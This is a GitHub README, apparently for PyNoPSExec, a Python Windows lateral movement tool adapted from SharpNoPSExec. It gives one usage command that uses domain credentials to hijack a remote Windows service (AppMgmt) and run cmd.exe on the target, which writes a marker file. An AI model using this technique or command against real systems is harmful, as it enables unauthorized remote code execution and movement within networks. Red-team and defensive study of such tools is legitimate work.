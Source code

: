 # PyNoPSExec
**A Lateral Movement Tool Learned From SharpNoPSExec  --  Twitter: @juliourena  根据@juliourena大神的SharpNOPsExec项目改写的横向移动工具** 
+ Platform(平台) Windows 10
+ Language（语言）Python2

## 使用方法

```bash
python PyNoPSexec.py  -t 192.168.23.107 -u testuser -p "TestPassword@123" -d test.sec.com -s AppMgmt -e "c:\\windows\\system32\\cmd.exe /c echo hackedbybobac > c:\\bobac.txt"
```
![image](https://user-images.githubusercontent.com/11972644/117527553-82264700-afff-11eb-9850-45ecbd997f98.png)
![image](https://user-images.githubusercontent.com/11972644/117527633-0bd61480-b000-11eb-955e-d8310d463090.png)


